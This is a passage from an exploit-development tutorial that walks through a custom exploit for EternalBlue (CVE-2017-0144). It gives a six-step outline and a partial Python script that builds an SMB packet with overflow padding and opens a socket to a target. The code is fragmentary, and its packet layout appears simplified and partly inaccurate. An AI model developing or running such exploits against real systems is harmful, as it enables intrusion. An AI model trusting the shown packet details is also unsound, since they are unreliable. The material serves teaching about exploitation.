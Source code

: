 The payload is then written to a file, which can be used as input to the vulnerable program.

### Case study: writing a custom exploit for a known vulnerability
---


Let's consider a case study of writing a custom exploit for a known vulnerability. We'll use the EternalBlue vulnerability (CVE-2017-0144) as an example. EternalBlue is a vulnerability in Microsoft's implementation of the SMB protocol that can lead to remote code execution. 

Steps to develop a custom EternalBlue exploit:

```ad-summary
1. Understand the vulnerability: EternalBlue exploits a buffer overflow in the SMB protocol's handling of specially crafted packets. 
2. Analyze the target system: Determine the exact version of the vulnerable Windows system and its patch level. 
3. Craft the exploit packet: Create a malformed SMB packet that triggers the buffer overflow. 
4. Develop the shellcode: Write or obtain shellcode that will be executed after successful exploitation. 
5. Implement the exploit in Python: Use libraries like struct and socket to craft and send the exploit packet. 
6. Test and refine: Test the exploit in a controlled environment and refine as needed.
```

Here's a simplified example of how part of the EternalBlue exploit might be implemented in Python:

```python
import socket
import struct
from pyfiglet import figlet_format
import argparse


# Creating the SMB packet

def create_smb_packet():
    # Simplified SMB packet structure
    packet = b"\x00"  # Session message
    packet += b"\x00\x00\xc0"  # Length
    packet += b"\xfeSMB"  # SMB header
    # ... (Additional SMB header fields)

    # Crafted transaction request

    packet += b"\x32"  # Transaction opcode
    # ... (Additional transaction fields)

    # Overflow data
    packet += b"A" * 800  # Padding
    packet += struct.pack("<I", 0x08000000)  # Overwrite next parameter offset
    packet += b"B" * 4  # Overwrite WCT and BCC fields
    packet += b"C" * 4  # Overwrite pointer to READ_ANDX_RESPONSE_STRUCT
    packet += b"D" * 16  # Overwrite READ_ANDX_RESPONSE_STRUCT

    return packet


# Sending the exploit
def send_exploit(target_ip, target_port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target_ip, target_port))

    # Send SMB negotiation request
    # ... (code to send negotiation request)
```